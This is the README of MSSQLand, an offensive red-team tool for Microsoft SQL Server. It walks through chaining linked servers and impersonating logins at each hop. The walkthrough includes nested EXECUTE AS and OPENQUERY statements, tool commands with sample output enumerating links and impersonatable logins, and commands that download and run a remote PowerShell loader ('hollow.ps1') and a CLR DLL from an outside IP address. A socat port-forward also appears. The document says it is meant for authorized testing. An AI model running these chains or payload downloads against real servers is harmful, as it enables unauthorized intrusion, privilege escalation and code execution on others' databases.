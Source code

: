 # ✈️ MSSQLand

Land gracefully in your target MSSQL DBMS, as if arriving on a business-class flight with a champagne glass in hand. 🥂

<p align="center">
    <img width="350" src="/media/MSSQLand__icon-nobg.png" alt="MSSQLand Logo">
</p>

MSSQLand is built for interacting with [Microsoft SQL Server](https://en.wikipedia.org/wiki/Microsoft_SQL_Server) database management system (DBMS) during your red team activities. Designed for constrained environments where operations must be executed directly through your beacons, it allows you to pave your way across multiple linked servers and impersonate anyone (authorized) along the way, emerging from the last hop with any desired action.

## 📃 Documentation

MSSQLand is built using `.NET Framework 4.8`, with assembly execution in mind.

- For a full list of commands, arguments, and actions, check out [COMMANDS.md](./COMMANDS.md).
- For an overview of the project structure, refer to [STRUCTURE.md](./STRUCTURE.md).
- Learn how to add new actions in [DEVELOPERS.md](./DEVELOPERS.md).

## 📸 Clean Output for Clean Reports

The tool's output, enriched with timestamps and valuable contextual information, is designed to produce visually appealing and professional results, making it ideal for capturing high-quality screenshots for any of your reports (e.g., customer deliverable, internal report, red team assessments).

All output tables are Markdown-friendly and can be copied and pasted directly into your notes without any formatting hassle.

![Searching pass](./media/example.png)

## 👑 Show Time

You gain access to a database `SQL01` mapped to the user `dbo`. You need to impersonate `webapp02` in order to connect to linked database `SQL02`. In `SQL02`, you need to impersonate `webapp03` in order to go further and so on and so forth. Let's say you’ve landed an agent inside a `sqlservr.exe` process running under the high-privileged `NT AUTHORITY\SYSTEM`. Lucky you!

After some reconnaissance, you suspect this is a multi-hop linked server chain. Typing out all those **RPC** or **OPENQUERY** calls manually? 

This is what it looks like to verify if you are `sysadmin` in `SQL03` when you have to impersonate `webapp03` on `SQL02` and `webapp04` on `SQL03`:

- [OPENQUERY](https://learn.microsoft.com/fr-fr/sql/t-sql/functions/openquery-transact-sql) (If `sys.servers.is_data_access_enabled`):

```sql
SELECT * FROM OPENQUERY([SQL02], 'EXECUTE AS LOGIN = ''webapp03''; SELECT * FROM OPENQUERY([SQL03], ''EXECUTE AS LOGIN = ''''webapp04''''; SELECT IS_SRVROLEMEMBER(''''sysadmin''''); REVERT;'') REVERT;')
```

- [RPC Out](https://learn.microsoft.com/fr-fr/sql/t-sql/functions/openquery-transact-sql) (If `sys.servers.is_rpc_out_enabled`):

```shell
EXEC ('EXECUTE AS LOGIN = ''webapp03''; EXEC (''EXECUTE AS LOGIN = ''''webapp04''''; SELECT IS_SRVROLEMEMBER(''''sysadmin''''); REVERT;'') AT [SQL03]; REVERT;') AT [SQL02]
```

No thanks 🚫. Let MSSQLand handle the heavy lifting so you can focus on the big picture. You've already impersonated multiple users on each hop, and now you want to enumerate links on `SQL04`:

```shell
.\MSSQLand.exe /h:localhost:webapp02 /c:token /l:SQL02:webapp03,SQL03:webapp04,SQL04 /a:links
```

The output is as follows:
```txt
[>] Trying to connect with TokenCredentials
[+] Connection opened successfully
|-> Server: localhost,1433
|-> Database: master
|-> Server Version: 15.00.2000
|-> Client Workstation ID: WS-445c74
|-> Client Connection ID: b7c172a7-c349-4268-a466-285d2af89fbb
[i] Logged in on SQL01 as NT AUTHORITY\SYSTEM
|-> Mapped to the user dbo
[i] You can impersonate anyone on SQL01 as a sysadmin
[+] Successfully impersonated user: webapp02
[i] Logged in as webapp02
|-> Mapped to the user dbo
[i] Execution chain: SQL02 -> SQL03 -> SQL04
[i] Logged in on SQL04 as webapps
|-> Mapped to the user guest

[>] Executing action 'Links' against SQL04
|-> Retrieving Linked SQL Servers

| Last Modified        | Link  | Product    | Provider | Data Source | Local Login | Remote Login | RPC Out | OPENQUERY | Collation |
| -------------------- | ----- | ---------- | -------- | ----------- | ----------- | ------------ | ------- | --------- | --------- |
| 7/7/2020 1:02:17 PM  | SQL05 | SQL Server | SQLNCLI  | SQL05       | webapp05    | webapps      | True    | True      | False     |
```

Now you want to verify who you can impersonate at the end of the chain:
```shell
.\MSSQLand.exe /h:localhost:webapp02 /c:token /l:SQL02:webapp03,SQL03:webapp04,SQL04 /a:impersonate
```
The output shows:

```txt
[>] Trying to connect with TokenCredentials
[+] Connection opened successfully
|-> Server: localhost,1433
|-> Database: master
|-> Server Version: 15.00.2000
|-> Client Workstation ID: WS-445c74
|-> Client Connection ID: b7c172a7-c349-4268-a466-285d2af89fbb
[i] Logged in on SQL01 as NT AUTHORITY\SYSTEM
|-> Mapped to the user dbo
[i] You can impersonate anyone as a sysadmin
[+] Successfully impersonated user: webapp02
[i] Server chain: SQL02 -> SQL03 -> SQL04
[i] Logged in as webapps
|-> Mapped to the user guest

[>] Executing action 'Impersonation' against SQL04
|-> Starting impersonation check for all logins
|-> Checking impersonation permissions individually

| Logins      | Impersonation |
| ----------- | ------------- |
| sa          | No            |
| MarieJo     | Yes           |
| Imane       | Yes           |
| John        | No            |
```

Great! Now you can directly reach out to your loader with:
```shell
.\MSSQLand.exe /h:localhost:webapp02 /c:token /l:SQL02:webapp03,SQL03:webapp04,SQL04:MarieJo /a:pwshdl "172.16.118.218/d/g/hollow.ps1"
```

Or even use Common Language Runtime (CLR) to load remotely a library with:
```txt
/a:clr \"http://172.16.118.218/d/SqlLibrary.dll\"
```

## 🌉 Port Forwarding with Linux

If you're running MSSQLand on your Windows host but need to access a SQL Server target through a Linux environment (Hyper-V VM, VMware, or WSL), you can easily forward the connection using `socat`:

```bash
sudo socat TCP4-LISTEN:1433,fork,reuseaddr TCP:10.10.11.90:1433
```

This command listens on port 1433 on your Linux machine and forwards all traffic to the target SQL Server at `10.10.11.90:1433`. You can then connect MSSQLand to your Linux VM's IP from your Windows host.

## 🫂 Contributing 

Contributions to MSSQLand are welcome and appreciated! Whether it's fixing bugs, adding new features, improving the documentation, or sharing feedback, your effort is valued and makes a difference.
Open-source thrives on collaboration and recognition. Contributions, large or small, help improve the tool and its community. Your time and effort are truly valued. 

Here, no one will be erased from Git history. No fear to have here—no one will copy-paste your code without adhering to the collaborative ethos of open-source.

Please see the [CONTRIBUTING.md](./CONTRIBUTING.md) for detailed guidelines on how to get started.

## 🥚 Origin

MSSQLand was born from real-world needs and hard-earned lessons.

Originally, I contributed extensively to [SQLRecon](https://github.com/skahwah/SQLRecon), which provided a solid foundation for MS SQL post-exploitation and reconnaissance. However, during my contributions to SQLRecon, particularly in addressing [chained linked server traversal](https://github.com/skahwah/SQLRecon/issues/16#issuecomment-2048435229) and enhancing user impersonation, I encountered significant roadblocks in how contributions were handled. [My pull request](https://github.com/skahwah/SQLRecon/pull/17), which introduced major improvements in impersonation, chaining, and context management, was ultimately not merged but copy pasted.

Rather than let this work go to waste, I decided to develop MSSQLand, an OOP-driven, modular, and community-friendly alternative. Unlike SQLRecon, which required deep refactoring to make simple modifications, MSSQLand was built with developers in mind. The tool is built with extensibility in mind, allowing integration of new features while maintaining clarity and simplicity. It aims to provide a structured, customizable, and operator-friendly experience for engagements requiring MS SQL exploitation.

## ⚠️ Disclaimer

This tool is designed for educational purposes only and is intended to assist security professionals in understanding and testing the security of SQL Server environments in authorized engagements. It is specifically crafted to be used in controlled environments, such as:
- Penetration testing labs (e.g., HackTheBox, OffSec exam scenarios).
- Personal lab setups designed for ethical hacking and security research.

## Legal Notice
Any unauthorized use of this tool in real-world environments or against systems without explicit permission from the system owner is strictly prohibited and may violate legal and ethical standards. The creators and contributors of this tool are not responsible for any misuse or damage caused.

Use responsibly and ethically. Always respect the law and obtain proper authorization.
